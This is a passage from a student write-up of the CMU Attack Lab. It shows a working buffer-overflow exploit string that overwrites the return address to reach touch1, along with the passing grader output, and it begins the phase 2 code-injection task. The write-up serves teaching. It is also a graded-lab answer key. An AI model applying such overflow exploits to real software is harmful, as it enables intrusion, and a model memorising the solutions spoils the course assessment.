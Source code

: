 ### What to do:
- Examining the disassembled instructions, we find that the size of the stack frame allocated for `getbuf` is `0x28`, which is 40 bytes. This means that the top of the stack, we have 40 bytes for `getbuf`, followed by the return address that we want to alter.
- Thus we can just fill in 40 bytes of random data, followed by the address of `touch1`. Examining the disassembled code, we find that the address of `touch1` is `0x4017c0`.

<br>

We can construct our exploit string:

```c
/* 40 bytes of data */
00 01 02 03 04 05 06 07 08 09
00 01 02 03 04 05 06 07 08 09
00 01 02 03 04 05 06 07 08 09
00 01 02 03 04 05 06 07 08 09
/* address of touch1, little-endian */
C0 17 40 00 00 00 00 00
```

<br>

Test:

```
$ ./hex2raw < ctarget.l1.exploit.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 C0 17 40 00 00 00 00 00
```

<br>

## Phase 2: CTARGET Level 2

### Task:
- We will now inject some code as a part of our exploit string.
- When `getbuf` returns, we want to pass control to the `touch2` function instead of returning to `test`.
- We also need to pass our cookie (included in the file `cookie.txt`) as an argument to `touch2`.

```c
/* Definition of touch2 */
void touch2(unsigned val){
  vlevel = 2;     // part of validation protocol
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```

